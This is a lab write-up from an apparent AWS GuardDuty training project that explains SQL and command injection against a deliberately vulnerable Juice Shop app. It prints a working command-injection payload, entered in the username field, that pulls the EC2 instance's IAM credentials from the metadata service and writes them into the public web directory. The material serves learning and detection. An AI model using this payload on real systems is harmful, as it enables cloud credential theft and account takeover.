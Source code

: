 SQL injection is a security risk because it allows attackers to tamper with backend queries, often giving them unauthorized access to sensitive data, administrative functions, or even full control of the database. In some cases, attackers can read, modify, or delete data without ever needing a password.

It's like whispering secret instructions to the database through a crack in the wall. If the application doesn't validate inputs properly or use parameterized queries, it unknowingly obeys. This kind of attack is not only dangerous but also surprisingly easy to pull off on poorly secured applications, making it a top priority in both OWASP’s Top 10 and in real-world cloud threat detection with tools like GuardDuty.

![Image](http://learn.nextwork.org/happy_cyan_mysterious_plantain/uploads/aws-security-guardduty_h1i2j3k4)

---

## Command Injection

Command injection is a critical web security vulnerability that occurs when an attacker is able to trick a server into executing unauthorized system commands—simply by entering malicious input where only plain data (like a username) was expected.

In this lab, we exploited the admin portal’s username field. Rather than entering a regular name, we injected system-level commands that the web server mistakenly executed. Imagine asking someone for their name, and instead they hand you instructions to unlock your phone and give it to them—that’s command injection in action.

The web app should have treated our input as harmless text, but due to a lack of input sanitization, it ran the embedded commands. This gave us access to something highly sensitive: the IAM credentials of the EC2 instance hosting the application.

To perform command injection, I targeted the Username field on the login page of the vulnerable web app (Juice Shop). Instead of entering a typical username, I inserted a specially crafted payload containing shell commands. The application, due to poor input validation, executed those commands directly on the underlying EC2 instance.

The injected command exploited the fact that the app was running system-level operations based on user input. Here’s a breakdown of the steps I used:

🔓 Step-by-Step Breakdown:
Accessed the login form of the Juice Shop admin portal.

Entered the following command in the username field:

$(TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600") && CREDURL=http://169.254.169.254/latest/meta-data/iam/security-credentials/ && CREDS=$(curl -H "X-aws-ec2-metadata-token: $TOKEN" -s $CREDURL | xargs -n1 curl -H "X-aws-ec2-metadata-token: $TOKEN") && echo $CREDS | json_pp > frontend/dist/front

![Image](http://learn.nextwork.org/happy_cyan_mysterious_plantain/uploads/aws-security-guardduty_t3u4v5w6)

---

## Attack Verification
